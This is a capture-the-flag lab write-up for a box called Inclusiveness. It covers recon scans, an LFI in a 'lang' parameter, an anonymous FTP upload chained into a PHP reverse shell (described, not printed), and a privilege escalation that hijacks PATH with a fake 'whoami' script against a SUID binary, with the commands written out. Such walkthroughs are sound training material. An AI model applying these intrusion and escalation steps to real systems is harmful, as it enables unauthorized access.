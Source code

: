 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Inclusiveness

## Recon

```bash
$ sudo nmap -T4 --min-rate 10000 -open -p- -A inclusive

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.45.171
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```

{% code overflow="wrap" %}
```bash
$ whatweb http://inclusive

http://inclusive [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.239.14], Title[Apache2 Debian Default Page: It works]
```
{% endcode %}

{% code overflow="wrap" %}
```bash
$ ffuf -u http://inclusive/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -ic -c -ac -e .txt,.php

________________________________________________
manual              [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 70ms]
javascript          [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 23ms]
robots.txt          [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 29ms]
norobots.txt        [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 30ms]
robots-txt          [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 27ms]
robots-txt.txt      [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 28ms]
robots-txt.php      [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 28ms]
valid-robots.txt    [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 24ms]
mof-robots.txt      [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 30ms]
hellorobots.txt     [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 32ms]
internetrobots.txt  [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 27ms]
061221_robots.txt   [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 30ms]
ooh_robots.txt      [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 30ms]
killer-robots.txt   [Status: 200, Size: 59, Words: 11, Lines: 2, Duration: 31ms]
<SNIP>
```
{% endcode %}

{% code overflow="wrap" %}
```bash
$ echo "http://inclusive" | hakrawler -u
http://inclusive/manual
http://httpd.apache.org/docs/2.4/mod/mod_userdir.html
http://bugs.debian.org/cgi-bin/pkgreport.cgi?ordering=normal;archive=0;src=apache2;repeatmerged=0
http://inclusive/manual/da/index.html
http://inclusive/manual/de/index.html
http://inclusive/manual/en/index.html
http://inclusive/manual/es/index.html
http://inclusive/manual/fr/index.html
http://inclusive/manual/ja/index.html
http://inclusive/manual/ko/index.html
http://inclusive/manual/pt-br/index.html
http://inclusive/manual/tr/index.html
http://inclusive/manual/zh-cn/index.html
```
{% endcode %}

## Local.txt

During dirbusting a bunch of various `robots`-related files appeared, all having the same message (Figure 1).

<figure><img src="../../.gitbook/assets/inclusiveness_robots.png" alt=""><figcaption><p>Figure 1: Reading the <code>robots.txt</code> file.</p></figcaption></figure>

Since we haven't anything else to try, we can try to figure out if this message is a hint for something. Apparently, there is [a way to impersonate a search engine](https://developers.google.com/search/docs/crawling-indexing/robots/robots\_txt?hl=en#what-is-a-robots.txt-file) via tampering with the `User-Agent` header (Figure 2).

<figure><img src="../../.gitbook/assets/inclusiveness_googlebot.png" alt=""><figcaption><p>The newly-discovered directory contains information about what a DNS Zone Transfer Attack is along with two language options (Figure 3).</p></figcaption></figure>

The newly-discovered directory contains information about what a DNS Zone Transfer Attack is along with two language options (Figure 3).

<figure><img src="../../.gitbook/assets/inclusiveness_dns_zone_attack.png" alt=""><figcaption><p>Figure 3: Enumerating a potential LFI vulnerability.</p></figcaption></figure>

The `lang` parameter is vulnerable to LFI and we can read the `/etc/passwd` file through it, revealing the user `tom` (Figure 4). The `local.txt` flag can be found in his home directory.

<figure><img src="../../.gitbook/assets/inclusiveness_lfi.png" alt=""><figcaption><p>Figure 4: Exploiting a LFI vulnerability.</p></figcaption></figure>

## Proof.txt

We have a LFI vulnerability and we also know, from the earlier `nmap` scan, that we can write files to the FTP server (`vsftpd`) and that is contains just one directory (`/pub`).

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
```

According to some [forum posts](https://www.linuxquestions.org/questions/red-hat-31/direct-access-on-pub-directory-for-anonymous-user-on-ftp-server-4175504168/), the `/pub` FTP directory is located under `/var/ftp/pub`. We can test that by uploading a file on the FTP server and reading it via the LFI flaw (Figure 5).

{% code overflow="wrap" %}
```bash
$ cat test_file.txt
testing /var/ftp/pub/ directory

$ ftp anonymous@inclusive
Connected to inclusive.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd pub
250 Directory successfully changed.
ftp> put test_file.txt
local: test_file.txt remote: test_file.txt
229 Entering Extended Passive Mode (|||58638|)
150 Ok to send data.
100% |*******************************************************************************|    32      578.70 KiB/s    00:00 ETA
226 Transfer complete.
```
{% endcode %}

<figure><img src="../../.gitbook/assets/inclusiveness_testing_ftp_dir.png" alt=""><figcaption><p>Figure 5: Testing the <code>/var/ftp/pub</code> directory.</p></figcaption></figure>

Now we have confirmed the location of the ftp's `/pub` directory, we can combine the `anonymous` FTP login misconfiguration and the LFI vulnerability and upload a PHP reverse shell (Figure 6).

<figure><img src="../../.gitbook/assets/inclusiveness_revshell.png" alt=""><figcaption></figcaption></figure>

After [upgrading our shell](https://x7331.gitbook.io/boxes/tools/shells/upgrade#script-python), we can see a file called `rootshell` under `/home/tom/`.

```bash
www-data@inclusiveness:/$ ls -la /home/tom
total 104
<SNIP>
-rwxr-xr-x  1 tom  tom     33 Aug 31 20:15 local.txt
-rwsr-xr-x  1 root root 16976 Feb  8  2020 rootshell
-rw-r--r--  1 tom  tom    448 Feb  8  2020 rootshell.c

www-data@inclusiveness:/$ /home/tom/rootshell
checking if you are tom...
you are: www-data
```

It seems that the way to root the box is to find a way to impersonate the user `tom`. Uploading and running `linpeas.sh` doesn't really help us much. A closer inspection of the `rootshell` script, shows that is uses the output of `whoami` to check if the user running it is actually `tom`.

{% code overflow="wrap" %}
```bash
www-data@inclusiveness:/home/tom$ cat rootshell.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
        setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}
```
{% endcode %}

The binary of `whoami` is located under `/usr/bin/whoami`. We can't modify it, but we can create a new bash script with the same name under `/tmp`, export `/tmp` into the `PATH` environment variable, and then run `rootshell`.

```bash
www-data@inclusiveness:/tmp$ cat whoami
#!/bin/bash
echo tom
www-data@inclusiveness:/tmp$ chmod +x whoami
www-data@inclusiveness:/tmp$ ./whoami
tom
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ whoami
tom
www-data@inclusiveness:/tmp$ /home/tom/rootshell
checking if you are tom...
you are: tom

access granted.
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
```
